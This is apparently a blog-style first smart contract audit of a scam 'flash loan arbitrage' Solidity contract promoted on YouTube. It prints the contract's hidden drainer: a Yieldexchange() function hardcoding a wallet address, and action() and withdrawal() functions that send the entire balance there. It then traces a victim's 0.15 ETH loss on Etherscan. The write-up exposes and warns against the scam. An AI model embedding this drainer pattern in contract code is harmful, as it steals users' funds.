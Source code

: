 ## Hello World....of malicious Smart Contracts

### Welcome to my first smart contract audit(It will be rudimentary and probably provide little value but I wanted to docuemtn my first step into this world.)

I have been reading about flash loan bots / MEV bots and was interested in the arbitrage aspect and the related potentila profitability. Much like any easy money scheme there are more opportunities for malcious intent rather than genuine money making strategy. As an infosec professional, i'm already extermely skeptical of everything so naturally, I was drawn to looking into anything claiming to make money FAST. 

I stumbled upon this [Youtube Video](https://www.youtube.com/watch?v=hqsqbjPKTRI&t=2s) talking about a flash loan. linked in the video description was a [Smart Contract](https://githubdata.com/usercontent/raw-data/eth_multiplier_contract_code_raw-30848ds4) I know the VERY bare basics of programming and solidity but I wanted to dig into this with the aid of AI. 

My OSINT senses were tingling as well from looking at the comment section of the video. All comments were made by accounts that all had the same "user-XXXXXX" syntax. This suggests that these were most likely bot accounts created by the original poster to make this video and code seem more legitimate. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/YT.jpg)

Etherscan has a newer application called [Code Reader](https://etherscan.io/code-reader). I copied the code into here and utilizing the ChatGPT API asked a few questions about this contract.

* What are the functions of this contract?

"The "FlashLoanArbitrage" contract contains the following functions:

1. **Constructor**: This function initializes the contract's token symbol, token name, and loan amount when the contract is first created.

2. **receive()**: A fallback function that allows the contract to receive funds.

3. **findNewContracts**: This function is used to find newly deployed contracts on the Uniswap exchange.

4. **findContracts**: This function extracts the newest contracts from the Uniswap exchange.

5. **loadCurrentContract**: This function loads the current contract.

6. **nextContract**: This function extracts the contract from Uniswap.

7. **memcpy**: This function copies data from the source to the destination in memory.

8. **orderContractsByLiquidity**: This function orders the contracts by available liquidity.

9. **calcLiquidityInContract**: This function calculates the remaining liquidity in a contract.

10. **getMemPoolOffset**: This function returns the memory pool offset.

11. **parseMempool**: This function parses the memory pool.

12. **keccak**: This function returns the keccak-256 hash of a contract.

13. **checkLiquidity**: This function checks if a contract has enough liquidity available

14. **getMemPoolLength**: This function returns the length of the memory pool.

15. **beyond**: This function modifies a slice to contain everything from the first occurrence of needle to the end of the slice.

16. **getMemPoolHeight**: This function returns the height of the memory pool.

17. **callMempool**: This function calls and returns the data of all the contracts in the mempool.

18. **toHexDigit**: This function returns the hexadecimal representation of a digit.

19. **_callMEVAction**: This function performs a MEV action call.

20. **Yieldexchange**: This function returns the selected contract's address.

21. **action**: This function performs a frontrun action on different contract pools.

22. **withdrawal**: This function withdraws the funds back to the contract creator's address.

23. **uint2str**: This function converts an unsigned integer to a string.

24. **getMemPoolDepth**: This function returns the depth of the memory pool.

25. **mempool**: This function loads all Uniswap memory pools into memory."

### 2 odd functions that stuck out to me were action and Yieldexchange. Here are the code snippets of these functions:

``` solidity
   }

    function _callMEVAction() internal pure returns (address) {
        return parseMempool(callMempool());
    }
    function Yieldexchange() public pure returns (address) {
		return 0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05;
	}
    /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `liquidity`.
     */
    function action() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }

    /*
     * @dev withdrawals profit back to contract creator address
     * @return `profits`.
     */
    function withdrawal() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }
```

* Ths function Yieldexchange defines an wallet address. This is NOT a yield exchange.
* And the function action calls Yieldexchange with the transfer function essentially transferring out the etheruem used to run this "Flashloan" to an external wallet.
* I input this address into etherscan and my hypothesis was correct. Under internal transaction on this address there was a deposit from an external source. I checked the transaction hash assocaited with the .15 ETH transfer.

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/1.jpg)

* Next I checked the external wallet address(0x8D73310409d758693a8b3234E7811319865734F4) that had transferred their funds out  this external wallet(0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05) unknown to them

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/2.jpg)

*As you can see this wallet receieved a deposit of ETH from Coinbase. This ETH was then used to create the contract(FlashLoan). The Contract was now funded and the owner of the ETH Address 0x8D73310409d758693a8b3234E7811319865734F4, then initiated the contract to use the .15 ETH in the "FlashLoan". After this was initiated this simply ran through tha contract code up until it hit the Yieldexchange function which defined the malicious wallet address(0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05) and simply transferred the funds to this account. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/3.jpg)

* In this last photo you can see all associated addressed interacting and seeing my previously stated summary of events playing out. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/4.jpg)

## Lessons learned

* ALWAYS review any contract offline. Obviously, with open source anything code will be copied and re used etc but prior to utilizing a contract and funding it it may be best to have a professional review the code or reach out to a community member on either a solidity forum 
